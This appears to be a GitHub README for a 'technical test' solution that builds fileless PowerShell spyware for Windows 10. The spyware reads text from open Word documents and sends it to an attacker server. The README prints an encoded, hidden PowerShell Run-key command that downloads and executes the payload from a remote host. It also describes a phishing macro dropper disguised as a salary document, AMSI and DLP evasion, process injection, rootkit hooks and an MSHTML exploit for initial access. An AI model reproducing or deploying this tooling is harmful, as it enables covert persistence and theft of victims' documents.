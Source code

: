 # Technical Test

Write code for Windows 10 that:

    - Is persistent (survives reboots).
    - It is as file-less as possible (should leave a minimal amount of code on disk, for as little time as possible).
    - Requires as little privileges as possible.
    - Searches for Word processes and extracts all text written (both for already open documents and for new Word instances).
    - Send the gathered data to a server.

## Solution

### Demo

![Persistence](./img/demo.gif)

### Persistence

The persistence in the execution of this software is implemented by adding an entry in the registry path: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` which is executed each time the user log in.

This payload makes a GET request to the server to load the software into memory and executes it. With this implementation the attacker can know when the user is logged into the computer because a GET request always will be do to the exfiltration server during user login.

```
powershell.exe -NoProfile -Noninteractive -ExecutionPolicy Bypass -WindowStyle Hidden -enc aQBlAHgAIAAoAGkAdwByACAAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA1ADYALgAxADoAOAAwADgAMAAvAG0AYQBpAG4ALgBwAHMAMQAnACkA
```

![Persistence](./img/persistence.png)

### Fileless

The code developed is 100% fileless as it does not need to write nothing on disk. It is loaded into memory during the login process for a user and all the operations are performed into memory.

The PowerShell code `main.ps1` is not obfuscated in any way making easier the comprehension of the reader. In commons attacks the bad actors will use techniques to obfuscate code and make forensics tasks harder. There are several tools that can be used to obfuscate the code, one of most common is Unicorn <https://github.com/trustedsec/unicorn>. It generates an obfuscate Powershell script with AMSI bypass. The obfuscated script can be found in `obfuscated.txt`.

#### Dropper

The most common way to compromise a corporate network is executing a phishing attack to its employees. It is an usual technique the use of Visual Basic scripts inserted into MS Office documents sending them by email or forcing to the users to download them. One common tool to create this kind of documents is Out-Word <https://github.com/samratashok/nishang/blob/master/Client/Out-Word.ps1> from Nishang repository. Using this tool an evil document with a juicy name `Salary_Details.doc` has been created. The script for the macro is located in `dropper.vbs` file. When this document is open and if the user enable the macro execution, it performs a GET to the evil server to get and execute the payload for the exfiltration.

![Dropper](./img/dropper.png)

![Dropper Gif](./img/drop.gif)

### Little privileges as possible

The code does not need any special privilege, all used functionalities can be executed only with user privileges.

### Searches for Word processes and extracts all text written

This is the core of the software and it is continuing monitoring if the process WinWord is running or not through functions `Wait-ProccessStarts` and `Wait-ProccessStops`. If it is not running the software just wait for 5 seconds and make another check. If the process is running the software call to function `Get-OpenWORDDocumentsWords` which get all open Word documents, read the words inside them and make the exfiltration executing the function `Invoke-Request`. This loop is repeated each 30 seconds while the process WinWord is running.

Inside the code there are three global variables for an easy configuration of the parameters.

```
$RegistryPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$ServerURL = "http://192.168.56.1:8080"
$Process = "Winword"
```

### Exfiltration http server

A simple python http server has been developed serving the payload for the fileless attack implementing GET method and receiving the exfiltration data through POST requests. The main code for the implementation comes from following link with the addition of other functionalities like serving files and creating files with decoded exfiltrated data.
<https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7>

During the first execution (infection) or when the computer is rebooted the payload is loaded from the server into memory executing it.

![Get Request](./img/get-request.png)

When the software fins that WinWord process starts, it send each 30 seconds the list of words to the server by a POST request encoding data y Base64. The server receives those data and created a file into disk with decoded data.

![Post Request](./img/post-request.png)

![Saved file into server](./img/server-file.png)

![Content of the file](./img/open-file.png)

#### Running the server

To execute the server it is only need to execute the following steps:

```
pip install -r requirements.txt
python3 webserver.py
```

### Possible Enhancements

It is necessary to mention here that there are a huge number of features that can be added for AV bypassing and make more difficult possible forensics tasks.

The software implements a basic bypass of possible DLP protections the exfiltrated data is encoded in Base64 before sending to the server. A better approach can be cyphering the payload with dynamic keys encryption gotten from the server.

If more advanced techniques are required, a better approach could be creating the  software as dll file and inject the code into a running process using the Reflective PE Injection <https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1>. Furthermore, it could be possible to create a hook into Win32 API functions NtQuerySystemInformation acting as a Rootkit hiding processes from the Task Manager and NtCreateUserProcess to launch the exfiltration method when the process WinWord starts.

For increasing the possibilities of a first execution of the software, modern vulnerabilities like Microsoft MSHTML Remote Code Execution can be used <https://github.com/lockedbyte/CVE-2021-40444>. Also, other drop techniques could be useful like creating a WASM application and try to make the user to visit it and executes the code hiding like a browser update.
